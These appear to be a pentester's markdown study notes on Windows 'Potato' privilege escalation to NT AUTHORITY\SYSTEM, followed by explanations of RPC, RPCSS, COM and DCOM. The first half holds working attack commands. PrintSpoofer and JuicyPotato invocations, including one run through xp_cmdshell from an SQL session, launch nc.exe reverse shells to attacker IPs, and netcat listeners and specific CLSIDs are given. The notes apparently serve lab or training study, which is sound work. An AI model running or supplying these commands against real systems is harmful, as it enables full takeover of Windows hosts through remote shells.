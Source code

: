 Potato privilege escalation is usually used when we obtain WEB/database privileges. We can elevate a service user with low privileges to "NT AUTHORITY\SYSTEM"
## Impact:
	- PrivEsc to   NT Authority/System`
## Requirements
- for windows server 2019 & windows 10 1809: try printspoofer, then Rouge Potato, 
- for 2016 and less try juicypotato
---
### exploitation steps
- for printspoofer:it runs flawlessly out of the box
- if it fails make sure spool is running
## printspoofer (most straightforward way)
`nc -nlvp 4444`
`reverse shell`
```
printspoofer.exe  -i -c "C:\Users\Public\nc.exe 10.10.16.26 4444 -e cmd.exe"
```

`inside xp_cmdshell`
```
SQL (WINLPE-SRV01\sql_dev  dbo@master)> EXEC xp_cmdshell 'C:\Users\Public\printspoofer.exe  -i -c "C:\Users\Public\nc.exe 10.10.16.26 4444 -e cmd.exe"';
```

---
#### Escalating Privileges Using Juicy-potato
JuicyPotato doesn't work on Windows Server 2019 and Windows 10 build 1809 onwards. 
```shell-session
sudo nc -lnvp 8443
```

```shell-session
.\potato.exe -l 53375 -p c:\windows\system32\cmd.exe -c winmgmt:{8BC3F05E-D86B-11D0-A075-00C04FB68820} -a "/c c:\Users\Public\Documents\nc.exe 10.10.16.19 8443 -e cmd.exe" -t *
```

```
for juicy potato to work you need the `CLSID` for the OS ur on,
use Get-CLSID.ps1 to get it and find CLSID FROM THE REPO FOR JUICYPOTATO

\potato.exe -l 4001 -p c:\windows\system32\cmd.exe -c {4661626C-9F41-40A9-B3F5-5580E80CB347} -a "/c c:\Users\Public\Documents\nc.exe 10.10.16.19 8443 -e cmd.exe" -t *

```

---
## Extra Notes

- When a privilege is listed for our account in the `Disabled` state, it means that our account has the specific privilege assigned. Still, it cannot be used in an access token to perform the associated actions until it is enabled. Windows does not provide a built-in command or PowerShell cmdlet to enable privileges, so we need some scripting to help us out. We will see ways to abuse various privileges throughout this module and various ways to enable specific privileges within our current process. One example is this PowerShell [script](https://www.powershellgallery.com/packages/PoshPrivilege/0.3.0.0/Content/Scripts%5CEnable-Privilege.ps1) which can be used to enable certain privileges, or this [script](https://www.leeholmes.com/adjusting-token-privileges-in-powershell/) which can be used to adjust token privileges.
-
### 🔗 RPC (Remote Procedure Call)

- **A protocol/technology** — a way for one process to execute a function in another process, locally or across the network.
    
- Think of it as the “language” or “highway” Windows uses for inter-process and inter-host communication.
    
- Used in tons of Windows services:
    
    - Active Directory
    - SMB
    - Print Spooler
    - COM/DCOM
        
- On Windows, RPC runs over **named pipes (local)** or **TCP/IP (network)**.
    

👉 **RPC = the communication mechanism.**

---

### 🏛️ RPCSS (Remote Procedure Call Subsystem Service)

- **A Windows service** that runs in the background (you’ll see it in `services.msc`).
    
- Lives at: `C:\Windows\system32\rpcss.dll`
    
- Runs as **NT AUTHORITY\SYSTEM**.
    
- Responsibilities:
    
    - Manages **COM/DCOM object activation**.
        
    - Registers and looks up **RPC endpoints** (so clients know how to reach servers).
        
    - Routes calls to the correct service.
        
    - Enforces some **security contexts** (which token a COM object runs under).
        

👉 **RPCSS = the SYSTEM-level traffic cop / broker that makes RPC + COM/DCOM actually work.**

---

# 🏛️ What’s RPCSS?

- **RPCSS = Remote Procedure Call Subsystem service**.
    
- It’s a **Windows core service** that:
    
    - Manages **COM/DCOM object activation**.
        
    - Routes **RPC requests** between processes/services.
        
    - Runs as **SYSTEM** because it’s central to OS communication.
        

👉 That’s why attackers love it: if you trick `Rpcss`, you’re messing with a process that already runs at

# ⚙️ COM & DCOM Explained (pentester-level)

### 🧩 COM (Component Object Model)

- A **Microsoft framework** (dating back to the 90s) that lets software expose “components” (objects) which other programs can use.
    
- Each component (a **COM object**) is defined by a **CLSID** (GUID).
    
- Example: “Task Scheduler” or “BITS downloader” exposes COM objects.
    
- **Local**: One process on a machine can request/use a COM object provided by another process.
    
- COM takes care of:
    
    - Object creation (instantiation).
        
    - Inter-process communication (IPC).
        
    - Security (what token/context the object runs under).
        

👉 **So COM is basically a system for sharing reusable objects between programs on the same machine.**

---

### 🌐 DCOM (Distributed COM)

- DCOM = **COM over the network (using RPC)**.
    
- Extends COM so that a program on _Machine A_ can request a COM object that runs on _Machine B_.
    
- RPCSS (the RPC service) handles all the heavy lifting:
    
    - Listening on network ports.
        
    - Spawning remote COM objects.
        
    - Handling authentication.
        

👉 **So DCOM is “COM but remote” — a program can activate/use a COM object on another machine.**